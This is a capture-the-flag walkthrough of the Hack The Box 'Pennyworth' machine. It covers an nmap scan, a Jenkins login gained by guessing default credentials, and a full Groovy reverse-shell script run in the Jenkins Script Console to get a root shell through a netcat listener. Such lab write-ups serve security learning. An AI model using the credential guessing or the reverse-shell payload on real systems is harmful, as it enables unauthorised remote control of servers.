## Reconnaissance

Kicking off with a simple Nmap scan...

__Nmap Scan__
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ sudo nmap -sC -sV -oN nmap.txt 10.129.36.207
[sudo] password for darshan:
Nmap scan report for 10.129.36.207
Host is up (0.31s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/21%OT=8080%CT=1%CU=37255%PV=Y%DS=2%DC=I%G=Y%TM=63CB9
OS:1D2%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M537ST11NW7%O2=M537ST11NW7%O3=M537NNT11NW7%O4=M537ST11NW7%O5=M537S
OS:T11NW7%O6=M537ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M537NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=
OS:G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 21 02:18:42 2023 -- 1 IP address (1 host up) scanned in 55.12 seconds

```

Visiting the website on port 8080, I found a `Jenkins Login Page`. So I tried entering common username and password combination to see if I could bypass the login page (admin:password, admin:admin, root:root) 

pw-1

And luckily after a few tries I was able to login in using `root:password` as credentials.

pw-2

After looking around the website for a while, we find this interesting section of the website:

pw-3

To get there, click on `Manage Jenkins` on the left pane, then scroll down all the way to the bottom of the page and click on `Script Console`. 

On Googling "Jenkins exploit" and I found this [link](https://github.com/gquere/pwn_jenkins) and scrolled down to the reverse shell from Groovy code:

```groovy
String host="my I>";
int port=8888;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Copy paste the code above to the Script Console section of the website. This should look something like this:

pw-4

Started a netcat listener on my machine
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/Pennyworth]
└─$ nc -lvnp 8888                              
listening on [any] 8888 ..
```

Now, I went back and ran the script from the Jenkins page.

And returning to my netcat, I got back a reverse shell.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/Pennyworth]
└─$ nc -lvnp 8888                              
listening on [any] 8888 ...
connect to [10.10.16.42] from (UNKNOWN) [10.129.36.207] 43016
whoami
root
```

Now that I had a root privileged reverse shell, I could retrieve the flag and complete the exercise.

```
cd root
ls  
flag.txt
snap
cat flag.txt
[REDACTED]
```


